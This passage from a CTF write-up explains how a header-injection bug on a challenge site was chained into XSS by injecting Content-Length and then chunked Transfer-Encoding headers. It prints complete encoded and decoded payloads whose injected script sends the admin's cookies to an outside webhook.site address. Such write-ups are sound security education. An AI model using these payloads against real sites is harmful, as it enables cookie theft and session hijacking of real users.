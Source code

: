But this will not be a valid JSON as the token will be appended to it.

![Try1](try1.png)

So we added a `Content-Length` header with the length of content that we want.

```
https://escape.nzeros.me/?user=a:%252520b%25250d%25250aContent-Length:%252520136%25250d%25250a%25250d%25250a%7B%22token%22%3A%22%3Cimg%20src%20onerror%3Dfetch%28%27https%3A%2F%2Fwebhook.site%2F91f29570-a3d7-4288-8143-3daea4f6cc53%25253Fflag%3D%27%25252Bbtoa%28document.cookie%29%29%3E%22%2C%22user%22%3A%22aa%22%7D

Triple URL decoded

https://escape.nzeros.me/?user=a: b\r\n
Content-Length: 136\r\n
\r\n
{"token":"<img src onerror=fetch('https://webhook.site/91f29570-a3d7-4288-8143-3daea4f6cc53?flag='+btoa(document.cookie))>","user":"aa"}
```

The problem with this was that this works only sometimes, and takes up too much time to load all the other time. It works once in a while. So we decide to open up 10 tabs on the admin's end so that in at least one tab it will work. But it also didn't work

This didn't work because the `Content-Length` was fixed to `149`. So when we send content less than that, it will wait for more content. If we can make the content length exactly 149 by changing the payload length, this would've worked. But we only knew this after the CTF.

![Try2](try2.png)

So we thought of using [chunked encoding](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding) instead.

```
https://escape.nzeros.me/?user=a:%252520b%25250d%25250aTransfer-Encoding:%252520chunked%25250d%25250a%25250d%25250a91%25250d%25250a%7B%22token%22%3A%22%3Cimg%20src%20onerror%3Dwindow.location%3D%27https%3A%2F%2Fwebhook.site%2F91f29570-a3d7-4288-8143-3daea4f6cc53%25253Fflag%3D%27%25252Bbtoa%28document.cookie%29%3E%22%2C%22user%22%3A%22aa%22%7D%25250d%25250a0%25250d%25250a%25250d%25250a

Triple URL decoded

https://escape.nzeros.me/?user=a: b\r\n
Transfer-Encoding: chunked\r\n
\r\n
91\r\n
{"token":"<img src onerror=window.location='https://webhook.site/91f29570-a3d7-4288-8143-3daea4f6cc53?flag='+btoa(document.cookie)>","user":"aa"}\r\n
0\r\n
\r\n
```

This worked flawlessly and combined with the script that opens the payload 10 times, we got the flag 10 times.
